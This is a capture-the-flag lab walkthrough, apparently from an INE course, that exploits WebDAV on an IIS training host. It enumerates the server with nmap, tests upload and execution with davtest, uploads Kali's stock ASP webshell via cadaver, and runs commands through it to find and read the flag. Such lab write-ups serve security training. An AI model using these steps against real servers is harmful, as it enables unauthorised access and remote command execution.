







## Windows: IIS Server DAVTest

### Target
`demo.ine.local`

### Tools:
* `davtest`

### Objective: 
Exploit the WebDAV service and retrieve the flag!

---
We first run an `nmap` scan to find the list of open ports.
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn demo.ine.local
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-05 05:37 IST
Nmap scan report for demo.ine.local (10.3.26.63)
Host is up (0.0029s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 1.51 seconds
```
We see that the port 80 is open and since port 80 normally runs the **webDAV** service, we focus on this port. We can also try to open the webpage and take a look at it.  
The webpage contains a login button and since we have already been provided with the username and password: **bob | password_123321**, we go ahead and try to login into it.  
   
Since we aren't allowed to login, there must be another webpage where we can use this username and password. We try to enumerate possible webpages using the **http-enum** script og `nmap`.
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -p80 demo.ine.local --script http-enum
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-05 05:41 IST
Nmap scan report for demo.ine.local (10.3.26.63)
Host is up (0.0030s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)

Nmap done: 1 IP address (1 host up) scanned in 11.56 seconds
```
We discover a hidden page called `/webdav/` and since its **401 Unauthorized**, it takes in login credentials. We try to login via the browser first.  
  
The url takes us to a webpage having a list of files and folders. This looks like it could be the webpage that is **webDAV** vulnerable.  
  
Now, we run `davtest` on it to see if it's the target we are looking for.
```bash
┌──(root㉿INE)-[~]
└─# davtest -url http://demo.ine.local/webdav/ -auth bob:password_123321                                                                                                                                                                  
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://demo.ine.local/webdav
********************************************************
NOTE    Random string for this session: Q1IS0v90zdqr
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr
********************************************************
 Sending test files
PUT     php     SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.php
PUT     pl      SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.pl
PUT     html    SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.html
PUT     jhtml   SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.jhtml
PUT     shtml   SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.shtml
PUT     asp     SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.asp
PUT     cfm     SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.cfm
PUT     jsp     SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.jsp
PUT     txt     SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.txt
PUT     aspx    SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.aspx
PUT     cgi     SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.cgi
********************************************************
 Checking for test file execution
EXEC    php     FAIL
EXEC    pl      FAIL
EXEC    html    SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.html
EXEC    html    FAIL
EXEC    jhtml   FAIL
EXEC    shtml   FAIL
EXEC    asp     SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.asp
EXEC    asp     FAIL
EXEC    cfm     FAIL
EXEC    jsp     FAIL
EXEC    txt     SUCCEED:        http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.txt
EXEC    txt     FAIL
EXEC    aspx    FAIL
EXEC    cgi     FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr
PUT File: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.php
PUT File: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.pl
PUT File: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.html
PUT File: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.jhtml
PUT File: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.shtml
PUT File: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.asp
PUT File: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.cfm
PUT File: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.jsp
PUT File: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.txt
PUT File: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.aspx
PUT File: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.cgi
Executes: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.html
Executes: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.asp
Executes: http://demo.ine.local/webdav/DavTestDir_Q1IS0v90zdqr/davtest_Q1IS0v90zdqr.txt
```
Looks like this is our target and it allows us to upload and execute **asp**, **txt** and **html** scripts. Kali linux already comes prepackaged with **asp** webshells. We look for one and copy it to the current directory.  
```bash
┌──(root㉿INE)-[~]
└─# ls /usr/share/webshells/                                                     
asp  aspx  cfm  jsp  laudanum  perl  php  seclists
┌──(root㉿INE)-[~]
└─# ls /usr/share/webshells/asp
cmd-asp-5.1.asp  cmdasp.asp  webshell.asp
┌──(root㉿INE)-[~]
└─# cp /usr/share/webshells/asp/webshell.asp .  
```
Once we have the webshell, we use `cadaver` to upload the shell to the server.  
```bash
┌──(root㉿INE)-[~]
└─# cadaver http://demo.ine.local/webdav
Authentication required for demo.ine.local on server `demo.ine.local':
Username: bob
Password:                                   
dav:/webdav/> put webshell.asp 
Uploading webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
dav:/webdav/> exit
Connection to `demo.ine.local' closed.

```
Once its done we just recheck via the browser to check if it's been uploaded.
  
Next we just use this webshell to search for the flag.  
  
Since it's a windows machine, we use the following string to search for any files containing the keyword **flag**:  
`dir C:\ /s /b | findstr /i flag`  

  
Next we just open the file to get the flag: `type C:\flag.txt`  

  
**Flag:** 0cc175b9c0f1b6a831c399e269772661